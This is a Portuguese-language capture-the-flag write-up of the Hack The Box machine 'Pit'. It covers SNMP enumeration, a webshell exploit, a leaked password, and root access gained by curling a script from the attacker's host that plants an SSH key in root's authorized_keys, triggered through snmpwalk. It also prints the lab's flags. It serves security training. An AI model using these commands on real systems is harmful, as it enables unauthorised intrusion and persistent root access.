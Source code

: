 # Pit

---

## Enum

---

```python
nmap -T4 -p- -A 10.10.10.241
```

![Pit%20526625379b16485892d408838667e755/mclovin.png](Pit%20526625379b16485892d408838667e755/mclovin.png)

- Fazendo a resolução de DNS:

```python
echo "10.10.10.241 pit.htb dms-pit.htb" > /etc/hosts
```

- Agora já sabemos que existem 2 portas udp rodando SNMP:

    ![Pit%20526625379b16485892d408838667e755/Untitled.png](Pit%20526625379b16485892d408838667e755/Untitled.png)

    - Procuramos na internet scripts no github que exploram os datas do SNMP:

    [https://github.com/dheiland-r7/snmp](https://github.com/dheiland-r7/snmp)

    ```python
    perl snmpbw.pl pit.htb public 2 1
    ```

---

### Exploration

---

- Entrando podemos enviar um arquivo pra dentro da máquina:
    - Dentro do sistema vai estar exposto a versão do software: 5.1.10, que tem uma webshell pra exploração da falha!
- Procurando pela webshell no `searchsploit`

![Pit%20526625379b16485892d408838667e755/backdoor.png](Pit%20526625379b16485892d408838667e755/backdoor.png)

Rodando esses passos e explorando os diretórios descobrimos que existe um arquivo chamado:

../../../conf/settings.xml

- Dentro deste arquivo podemos encontrar uma página em branco porém com informações na sua source page:

    ![Pit%20526625379b16485892d408838667e755/burp.png](Pit%20526625379b16485892d408838667e755/burp.png)

    - Senha login → michelle: ied^ieY6xoquu

Agora voltando para `http://pit.htb:9090`

Colocando essas credenciais conseguimos encontrar um painel de login:

![Pit%20526625379b16485892d408838667e755/login-sistema.png](Pit%20526625379b16485892d408838667e755/login-sistema.png)

![Pit%20526625379b16485892d408838667e755/reverse.png](Pit%20526625379b16485892d408838667e755/reverse.png)

User Flag: be77b070e8e1ac7ac499d1412670d215

---

cd /usr/local/monitoring

- Precisamos agora criar uma RSA_Id

```python
ssh-keygen
// colocamos um nome
```

- Criamos um arquivo `[keytosend.sh](http://keytosend.sh)` que terá dentro :

```python
echo "RSA_ID_PUB" > /root/.ssh/authorized_keys
```

- Agora abrimos um servidor em python dentro da pasta na nossa máquina:

```python
python -m SimpleHTTPServer PORT
```

- E rodamos um curl dentro da máquina da vitima:

```python
curl [http://10.10.14.33](http://10.10.14.33):PORT/[keytosend.sh](http://keytosend.sh) -o check.sh 
```

- Precisamos garantir que está no /usr/local/monitoring
    - Ou então dar um :

    ```python
    cp check.sh /usr/local/monitoring 
    ```

![Pit%20526625379b16485892d408838667e755/curl.png](Pit%20526625379b16485892d408838667e755/curl.png)

- Para que esse arquivo seja rodado na máquina precisamos rodar :

```python
snmpwalk -v 1 -c public pit.htb 1.3.6.1.4.1.8072.1.3.2.2.1.2 
```

![Pit%20526625379b16485892d408838667e755/snmpwalk.png](Pit%20526625379b16485892d408838667e755/snmpwalk.png)

- ou então :

```python
snmpwalk -m +MY-MIB -v2c -c public 10.10.10.241 nsExtendObjects 
```

![Pit%20526625379b16485892d408838667e755/snmpwalk2.png](Pit%20526625379b16485892d408838667e755/snmpwalk2.png)

- Por fim

```python
ssh -i id_rsa root@pit.htb
```

Root Flag: f35dad39922ce883a572c057f672bbd8

---